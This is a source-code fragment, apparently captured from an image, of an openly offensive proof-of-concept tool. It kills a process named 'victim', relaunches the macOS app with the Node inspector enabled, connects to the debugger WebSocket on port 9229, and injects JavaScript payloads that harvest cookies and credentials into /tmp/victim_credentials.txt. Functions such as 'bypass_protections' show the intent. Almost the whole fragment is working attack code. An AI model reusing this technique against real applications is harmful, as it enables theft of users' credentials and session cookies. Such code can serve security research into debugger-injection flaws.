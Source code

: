 ```python
                writeToFile("/tmp/victim_credentials.txt", result);
            })
        }
        else if (in_location) {
            wc.executeJavaScript(`alert("Creds stolen and written to /tmp/victim_credentials.txt")`);
            clearInterval(intervalIdCreds);
        }
    }, 10); // Check every 10ms
    setTimeout(() => clearInterval(intervalId), 20000); // Stop after 20 seconds
}

get_cookies();
get_creds();
console.log("Payloads injected");
"""

async def get_debugger_url():
    """
    Fetch the local inspector's WebSocket URL from the JSON endpoint.
    Assumes there's exactly one debug target. 
    """
    global INSPECT_URL

    url = "http://127.0.0.1:9229/json"
    response = requests.get(url)
    data = response.json()
    if not data:
        raise RuntimeError("No debug targets found on port 9229.")
    # data[0] should contain an object with "webSocketDebuggerUrl"
    ws_url = data[0].get("webSocketDebuggerUrl")
    if not ws_url:
        raise RuntimeError("webSocketDebuggerUrl not found in inspector data.")
    INSPECT_URL = ws_url


async def monitor_victim():
    print("Monitoring victim process...")
    found = False
    while not found:
        sleep(1)  # Check every second
        for process in psutil.process_iter(attrs=['pid', 'name']):
            try:
                # Check if the process name contains "victim"
                if process.info['name'] and 'victim' in process.info['name']:
                    found = True
                    print(f"Found victim process (PID: {process.info['pid']}). Terminating...")
                    os.kill(process.info['pid'], 9)  # Force kill the process
            except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
                # Handle processes that might have terminated or are inaccessible
                pass
    os.system("open /Applications/victim.app --args --inspect-brk")

async def bypass_protections():
    global CONTEXT_ID, NAME, UNIQUE_ID
    print(f"Connecting to {INSPECT_URL} ...")

    async with websockets.connect(INSPECT_URL) as ws:
        data = await send_cmd(ws, "Runtime.enable", get_first=True)
        CONTEXT_ID = data["params"]["context"]["id"]
        NAME = data["params"]["context"]["name"]
        UNIQUE_ID = data["params"]["context"]["uniqueId"]
        
```